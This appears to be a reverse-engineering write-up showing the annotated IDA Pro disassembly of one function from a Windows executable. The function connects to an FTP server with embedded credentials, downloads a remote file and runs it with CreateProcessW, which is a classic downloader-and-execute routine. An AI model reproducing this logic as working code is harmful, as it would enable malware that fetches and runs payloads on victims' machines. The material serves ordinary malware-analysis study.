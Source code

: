 # sub_401080 Function

The `sub_401080` function code of the Windows executable being reversed-engineered, as shown in IDA Pro:
    
    .text:00401080 ; ¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦ S U B R O U T I N E ¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦¦
    .text:00401080
    .text:00401080 ; Attributes: bp-based frame
    .text:00401080
    .text:00401080 proc            sub_401080 near         ; CODE XREF: _main+99p
    .text:00401080
    .text:00401080 var_68          = dword ptr -68h
    .text:00401080 var_3C          = dword ptr -3Ch
    .text:00401080 hInternet       = dword ptr -1Ch
    .text:00401080 hHandle         = dword ptr -18h
    .text:00401080 lpStartupInfo   = dword ptr -8
    .text:00401080 hConnect        = dword ptr -4
    .text:00401080
    .text:00401080                 push    ebp
    .text:00401081                 mov     ebp, esp
    .text:00401083                 sub     esp, 68h ; reserve space (68h) on the stack for local variables
    .text:00401086                 push    0               ; dwReserved
    .text:00401088                 call    [ds:InternetAttemptConnect] ; attempt/test connecting to the internet before issuing any requests // https://docs.microsoft.com/en-us/windows/desktop/api/wininet/nf-wininet-internetattemptconnect
    .text:0040108E                 test    eax, eax ; eax = 0h
    .text:00401090                 jnz     loc_401151 ; if not zero, Z=0, jump to 401151
    .text:00401096                 push    0               ; dwFlags
    .text:00401098                 push    0               ; lpszProxyBypass 
    .text:0040109A                 push    0               ; lpszProxy 
    .text:0040109C                 push    0               ; dwAccessType 
    .text:0040109E                 push    0               ; lpszAgent 
    .text:004010A0                 call    [ds:InternetOpenW] ; initialize the application's use of WinINet functions // https://docs.microsoft.com/en-us/windows/desktop/api/wininet/nf-wininet-internetopenw
    .text:004010A6                 mov     [ebp+hInternet], eax ; eax = 00CC0004h
    .text:004010A9                 push    0               ; dwContext 
    .text:004010AB                 push    8000000h        ; dwFlags 
    .text:004010B0                 push    1               ; dwService
    .text:004010B2                 push    offset szPassword ; lpszPassword 
    .text:004010B7                 push    offset szUserName ; lpszUserName 
    .text:004010BC                 push    15h             ; nServerPort 
    .text:004010BE                 push    offset szServerName ; lpszServerName 
    .text:004010C3                 mov     eax, [ebp+hInternet] 
    .text:004010C6                 push    eax             ; hInternet = 00CC0004h
    .text:004010C7                 call    [ds:InternetConnectW] ; Opens an File Transfer Protocol (FTP) or HTTP session for a given site // https://docs.microsoft.com/en-us/windows/desktop/api/wininet/nf-wininet-internetconnectw
    .text:004010CD                 mov     [ebp+hConnect], eax ; eax = 0h
    .text:004010D0                 push    0               ; dwContext
    .text:004010D2                 push    2               ; dwFlags
    .text:004010D4                 push    20h             ; dwFlagsAndAttributes
    .text:004010D6                 push    0               ; fFailIfExists
    .text:004010D8                 push    offset szRemoteFile ; lpszNewFile
    .text:004010DD                 push    offset szRemoteFile ; lpszRemoteFile
    .text:004010E2                 mov     ecx, [ebp+hConnect]
    .text:004010E5                 push    ecx             ; hConnect = 0h
    .text:004010E6                 call    [ds:FtpGetFileW] ; Retrieves a file from the FTP server and stores it under the specified file name, creating a new local file in the process // https://docs.microsoft.com/en-us/windows/desktop/api/wininet/nf-wininet-ftpgetfilew
    .text:004010EC                 mov     edx, [ebp+hConnect]
    .text:004010EF                 push    edx             ; hConnect
    .text:004010F0                 call    [ds:InternetCloseHandle] ; Closes a single Internet handle // https://docs.microsoft.com/en-us/windows/desktop/api/wininet/nf-wininet-internetclosehandle
    .text:004010F6                 mov     eax, [ebp+hInternet] 
    .text:004010F9                 push    eax             ; hInternet = 0h
    .text:004010FA                 call    [ds:InternetCloseHandle] ; Closes a single Internet handle // https://docs.microsoft.com/en-us/windows/desktop/api/wininet/nf-wininet-internetclosehandle 
    .text:00401100                 push    44h             ; size_t - Number of characters
    .text:00401102                 push    0               ; int - Character to set
    .text:00401104                 lea     ecx, [ebp+var_68] ; 
    .text:00401107                 push    ecx             ; void * - Pointer to destination
    .text:00401108                 call    _memset ; Sets buffers to a specified character // https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/memset-wmemset?view=vs-2017
    .text:0040110D                 add     esp, 0Ch
    .text:00401110                 mov     [ebp+var_68], 44h
    .text:00401117                 mov     [ebp+var_3C], 100h
    .text:0040111E                 lea     edx, [ebp+var_68]
    .text:00401121                 mov     [ebp+lpStartupInfo], edx
    .text:00401124                 lea     eax, [ebp+hHandle]
    .text:00401127                 push    eax             ; lpProcessInformation
    .text:00401128                 mov     ecx, [ebp+lpStartupInfo]
    .text:0040112B                 push    ecx             ; lpStartupInfo
    .text:0040112C                 push    0               ; lpCurrentDirectory
    .text:0040112E                 push    0               ; lpEnvironment
    .text:00401130                 push    0               ; dwCreationFlags
    .text:00401132                 push    0               ; bInheritHandles
    .text:00401134                 push    0               ; lpThreadAttributes
    .text:00401136                 push    0               ; lpProcessAttributes
    .text:00401138                 push    offset szRemoteFile ; lpCommandLine
    .text:0040113D                 push    0               ; lpApplicationName
    .text:0040113F                 call    [ds:CreateProcessW] ; Creates a new process and its primary thread // https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createprocessw
    .text:00401145                 push    0FFFFFFFFh      ; dwMilliseconds - The time-out interval, in milliseconds
    .text:00401147                 mov     edx, [ebp+hHandle] 
    .text:0040114A                 push    edx             ; hHandle
    .text:0040114B                 call    [ds:WaitForSingleObject] ; Waits until the specified object is in the signaled state or the time-out interval elapses // https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
    .text:00401151
    .text:00401151 loc_401151:                             ; CODE XREF: sub_401080+10j
    .text:00401151                 mov     esp, ebp
    .text:00401153                 pop     ebp
    .text:00401154                 retn
    .text:00401154 endp            sub_401080